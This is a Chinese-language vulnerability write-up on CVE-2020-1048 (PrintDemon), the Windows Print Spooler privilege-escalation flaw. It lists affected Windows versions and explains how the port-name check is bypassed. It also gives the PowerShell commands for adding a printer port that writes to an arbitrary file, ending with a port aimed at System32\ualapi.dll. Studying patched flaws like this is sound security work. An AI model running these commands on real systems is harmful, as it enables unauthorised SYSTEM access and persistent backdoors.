


今年5月，微软发布安全补丁以修补Windows 打印机后台处理程序高危本地提权升级漏洞，编号CVE-2020-1048。它可以获取系统管理员权限，甚至部署持久化后门，影响范围自1996年以来发布(Windows NT 4)的所有Windows版本。这个漏洞的核心原理在于windows添加打印机时，对port name的检查函数可以被绕过，设置为任意文件，因此我们可以把任意内容输出到port name对应的系统文件(如某个dll)中，实现权限提升。经过补丁后，紧随其后的CVE-2020-1337又有姿势可以绕检查。


#### 影响范围

Microsoft Windows 10 Windows 10 1607版本 Windows 10 1709版本 Windows 10 1803版本 Windows 10 1809版本 Windows 10 1903版本 Windows 10 1909版本 Windows 7 SP1 Windows 8.1 Windows RT 8.1 Windows Server 2008 SP2 Windows Server 2008 R2 SP1 Windows Server 2012 Windows Server 2012 R2 Windows Server 2016 Windows Server 2019 Windows Server 1803版本 Windows Server 1903版本 Windows Server 1909版本 修复建议 关注官方发布的补丁升级及时修复漏洞。 https://portal.msrc.microsoft.com/zh-CN/security-guidance/advisory/CVE-2020-1048 POC [PrintDemon-master](./CVE-2020-1048 Microsoft Windows Print Spooler提权漏洞/PrintDemon-master.zip)

## 了解需要利用漏洞前一些基本信息

Printers, Drivers, Ports

 

打印机至少有两个要素

打印机端口        你可以认为它是现在的USB端口，甚至是TCP/IP端口(和地址)，打印机可以打印到一个文件(在Windows 8及以上)

打印机驱动程序    这曾经是一个内核模式组件，但是有了新的"v4"模型，这些都是在用户模式下完成的，到现在已经超过十年

 

由于以Spooler实施的服务Spoolsv.exe具有SYSTEM特权，并且可以通过网络访问，因此这两个要素吸引了人们执行各种有趣的攻击。

为了使标准用户帐户更容易使用，并且由于这些帐户现在以用户模式运行，只要驱动程序是一个 预先存在的，内置驱动程序，不需要任何特权就可以安装一个打印驱动程序。

```
Add-PrinterDriver` `-Name ``"Generic / Text Only"
```


添加一个打印机端口

```
Add-PrinterPort` `-Name ``"C:\windows\tracing\myport.txt"
```


Get-PrinterPort | ft Name 可以查看到或者查看注册表这个位置

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Ports

在peocessmointer监控中可以看到这个动作（发现测试几次截图时搞混了没有原来的图了，下面截图中的C:\windows\test\test.txt实际上是C:\windows\tracing\myport.txt）


系统中添加一台新打印机

```
Add-Printer` `-Name ``"PrintDemon"` `-DriverName ``"Generic / Text Only"` `-PortName ``"c:\windows\tracing\myport.txt"
```

输出到文件

```
"Hello,Printer!"` `| ``Out-Printer` `-Name ``"PrintDemon"
```

打印到内容在c:\windows\tracing\myport.txt，我们找到这个文件查看一下


hiew打开文档会发现内容实际比我们输入的要多，PowerShell认为这是实际的打印机。因此会按照文档格式的边距，为顶部边距添加了几行新内容。 

让我们重新创建新的文件C:\Windows\System32\Ualapi.dll，这个位置因为需要特特殊的权限所以会被阻拦 这个函数会使windows print spooler服务对端口的合法性校验，当前用户无法将其设置为一个自己不具有访问权限的路径

创建文件时，会检查Token权限进行验证，同时IDA中也能找到这段代码


但是只有当用户选择了“打印到文件”选择框，在打印对话框中可以看到。




在选择其他形式的输出会完全跳过此检查





## Client Side Port Check Vulnerability (CVE-2020-1048) 

只需要一个PowerShell命令
PowerShell使用add-printer命令在底层则是直接调用XcvData函数，这个函数可以将port name设置为任意文件而不被检查

就是这么简单。UI对话框具有检查功能，而PowerShell的WMI打印提供程序模块则没有。
只需Add-PrinterPort -Name c:\windows\system32\ualapi.dll在PowerShell窗口中执行即可